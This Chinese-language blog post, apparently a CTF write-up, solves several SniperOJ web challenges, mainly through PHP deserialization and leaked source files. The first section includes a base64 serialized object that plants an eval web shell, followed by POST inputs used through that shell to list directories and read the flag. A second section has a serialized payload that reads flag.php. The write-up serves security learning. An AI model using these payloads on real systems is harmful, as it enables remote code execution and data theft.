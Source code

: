 ```yaml
---
title: sniperoj some web writeup
date: 2017-11-07 15:54:41
tags: [sniperoj,web,ctf,记录]
categories:
---
```


## 0x00.前言

今天机缘巧合发现了这个OJ平台，http://www.sniperoj.com/, 就随手做一下，平台十分小清新，web题目还行，有一点收获，记录一下而已。

## 0x01.记录

### 1.php-object-injection

提示是一个反序列化题目，像这种什么都没给的，右键源码什么都木有的，不用说，一定是源码泄露了。swp，bak,~都给上去看看有木有。最后是 http://120.24.215.80:10007/.index.php.swp

在ubuntu中复原一下 vim -r index.php.swp 得:

```php
   class Logger{
        private $logFile;
        private $initMsg;
        private $exitMsg;

        function __construct($file){
            // initialise variables
            $this->initMsg="#--session started--#\n";
            $this->exitMsg="#--session end--#\n";
            $this->logFile = "/tmp/natas26_" . $file . ".log";

            // write initial message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$initMsg);
            fclose($fd);
        }

        function log($msg){
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$msg."\n");
            fclose($fd);
        }

        function __destruct(){
            // write exit message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->exitMsg);
            fclose($fd);
        }
    }
```

<!-- more -->

代码很长，给出上面两处就明白了

```php+HTML
    function storeData(){
        $new_object=array();

        if(array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
            array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET)){
            $new_object["x1"]=$_GET["x1"];
            $new_object["y1"]=$_GET["y1"];
            $new_object["x2"]=$_GET["x2"];
            $new_object["y2"]=$_GET["y2"];
        }

        if (array_key_exists("drawing", $_COOKIE)){
            $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
        }
        else{
            // create new array
            $drawing=array();
        }

        $drawing[]=$new_object;
        setcookie("drawing",base64_encode(serialize($drawing)));
    }
?>

<div id="content">

Draw a line:<br>
<form name="input" method="get">
X1<input type="text" name="x1" size=2>
Y1<input type="text" name="y1" size=2>
X2<input type="text" name="x2" size=2>
Y2<input type="text" name="y2" size=2>
<input type="submit" value="DRAW!">
</form>

<?php
    session_start();

    if (array_key_exists("drawing", $_COOKIE) ||
        (   array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
            array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET))){
        $imgfile="img/natas26_" . session_id() .".png";
        drawImage($imgfile);
        showImage($imgfile);
        storeData();
    }

?>
```

_construct()是构造函数，在用对象前做一些微小得工作。这里可以直接反序列化创造文件。构造得:

 ![13](http://myndtt.github.io/images/13.png)



```
Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czoxMjoiaW1nL215bmQucGhwIjtzOjE1OiIATG9nZ2VyAGluaXRNc2ciO3M6MDoiIjtzOjE1OiIATG9nZ2VyAGV4aXRNc2ciO3M6MjU6Ijw%2FcGhwIGV2YWwoJF9QT1NUWydhJ10pPz4iO30%3D
```

burp抓包修改drawing为上述值

http://120.24.215.80:10007/img/mynd.php   依次post如下数据即可

```
a=print_r(scandir("../"));
a=print_r(file_get_contents("../F_LLLLA_-gggg"));
```

### 2.guess the code

这道题跟上面是一个道理，都很简单，右键源码拉最后发现

```php
<p hidden>#try to read flag.php	
Class whatthefuck{
	public function __toString()
	{
		return highlight_file($this->source,true);
	}
}</p>
</form>
</body>
</html>
```

这个代码要我们取推测，很显然这个this->source变量source是关键，构造得:

![14](http://myndtt.github.io/images/14.png)

```
O:11:"whatthefuck":1:{s:6:"source";s:8:"flag.php";}
a%3A1%3A%7Bi%3A0%3BO%3A11%3A%22whatthefuck%22%3A1%3A%7Bs%3A6%3A%22source%22%3Bs%3A8%3A%22flag.php%22%3B%7D%7D
#第一个是原始的
```

最后问题来了，那要通过什么值取上传这个东西呢，Burp抓包看看就知道十有八九是这个list了。

### 3.SniperOJ-Web-Browser

这个题比较有意思，开始以为会很水，最后那个要指定特定端口的还是很有意思，以前见过这类题writeup，用的好像是curl，重新翻了翻curl手册，看看有什么命令可以修改端口，果然，哈哈。只不过是要公网的

```
  --local-port 	强制使用本地端口号 
```

![15](http://myndtt.github.io/images/15.png)

### 4.php-weak-type

http://120.24.215.80:10001/index.php~  查看到源码，MD5,弱类型

其他题目暂时连不上

## 0x02.学习

### 1.2048 GAME

这道题算是最有意思的了，因为没做出来哈哈。

题目提示是git源码泄露，并且给了工具，但我以往用的工具不是给的这个。用的是这位大佬的

https://github.com/lijiejie/GitHack

下下来源码以后，发现没什么用啊，都是JS,CSS，这些都可以右键源码跟进找到有什么用呢？

后来网上搜，翻看这个平台作者的简书http://www.jianshu.com/p/e9923b65789e

这让我不禁又会看起GIT教程了,还是廖大佬讲的清楚

https://www.liaoxuefeng.com/wiki/0013739516305929606dd18361248578c67b8067c8c017b000

其实就是当用题目给的那个工具还可以抓下.GIT，而flag就藏在以前的某个GIT版本里面，回退去就好了。

## 0x03.学无止境

最近发现了好几个平台，看见有意思的再写写吧

